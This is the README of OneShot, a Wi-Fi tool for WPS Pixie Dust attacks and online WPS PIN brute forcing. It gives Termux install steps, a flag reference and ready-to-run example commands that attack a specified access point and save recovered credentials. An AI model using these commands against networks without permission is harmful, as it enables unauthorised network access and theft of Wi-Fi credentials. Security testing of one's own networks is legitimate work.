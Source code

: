 ```yaml
---

# OneShot

A powerful tool to perform [Pixie Dust attacks](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) and other WPS-related operations without requiring monitor mode.

---
```


## Overview

**OneShot** simplifies WPS attacks and Wi-Fi network scanning by integrating various tools, including Pixie Dust and 3WiFi.

### Key Features:
- **Pixie Dust attack**: Exploit WPS vulnerabilities without monitor mode.
- **Offline WPS PIN generation**: Leverages [3WiFi](https://3wifi.stascorp.com/wpspin) for PIN generation.
- **Online WPS brute force**: Run exhaustive PIN-based WPS attacks.
- **Wi-Fi scanner**: Highlights networks vulnerable to attacks (requires `iw`).

---

## Requirements
- Python 3.6+
- [Wpa supplicant](https://www.w1.fi/wpa_supplicant/)
- [Pixiewps](https://github.com/wiire-a/pixiewps)
- [iw](https://wireless.wiki.kernel.org/en/users/documentation/iw)

---

## Setup

### Termux (Android)

**Note**: Root access is required.

#### Installation

1. **Single Line Command**:
    Coming soon!!

2. **Manual Install**:
    1. **Install Requirements**:
        ```bash
        termux-setup-storage
        apt update && apt upgrade
        pkg install -y root-repo
        pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
        ```
    2. **Clone Repository**:
        ```bash
        git clone --depth 1 https://github.com/i-sifat/Oneshot Wifi
        ```
    3. **Run**:
        ```bash
        sudo python Wifi/oneshot.py -i wlan0 --iface-down -K
        ```

---

## Usage
```bash
python3 oneshot.py <arguments>
```

### Required Arguments:
- `-i`, `--interface=<wlan0>`: Specify the interface to use.

### Optional Arguments:
- `-b`, `--bssid=<mac>`: Specify target AP BSSID.
- `-p`, `--pin=<wps pin>`: Use a specific PIN (4/8 digits or string).
- `-K`, `--pixie-dust`: Run Pixie Dust attack.
- `-B`, `--bruteforce`: Launch online brute force attack.
- `--push-button-connect`: Initiate WPS push-button connection.

### Advanced Options:
- `-d`, `--delay=<n>`: Set delay between pin attempts (default: 0).
- `-w`, `--write`: Save AP credentials on success.
- `-F`, `--pixie-force`: Force Pixiewps to brute force full range.
- `-X`, `--show-pixie-cmd`: Display Pixiewps command.
- `--vuln-list=<filename>`: Use custom vulnerable device list (`vulnwsc.txt`).
- `--iface-down`: Bring the interface down after execution.
- `-l`, `--loop`: Continuously run.
- `-r`, `--reverse-scan`: Reverse scan order (for small displays).
- `--mtk-wifi`: Activate/deactivate MediaTek Wi-Fi drivers (for Android MediaTek SoCs).
- `-v`, `--verbose`: Enable verbose output.

---

## Usage Examples

### Pixie Dust Attack on a Specific BSSID:
```bash
sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
```

### Scan for Networks and Start Pixie Dust Attack:
```bash
sudo python3 oneshot.py -i wlan0 -K
```

### Online WPS Brute Force:
```bash
sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
```

### WPS Push Button Connection:
```bash
sudo python3 oneshot.py -i wlan0 --pbc
```

---

## Troubleshooting

### Error: *RTNETLINK answers: Operation not possible due to RF-kill*
Run:
```bash
sudo rfkill unblock wifi
```

### Error: *Device or resource busy (-16)*
- Disable Wi-Fi in system settings.
- Kill the Network Manager.
- Use the `--iface-down` flag.

### Issue: *Disappearing `wlan0` Interface on Android (MediaTek SoC)*
Run OneShot with:
```bash
--mtk-wifi
```

---

## Special Thanks
- **rofl0r**: Original implementation.
- **Monohrom**: Testing, bug fixes, and ideas.
- **Wiire**: Development of Pixiewps.

--- 
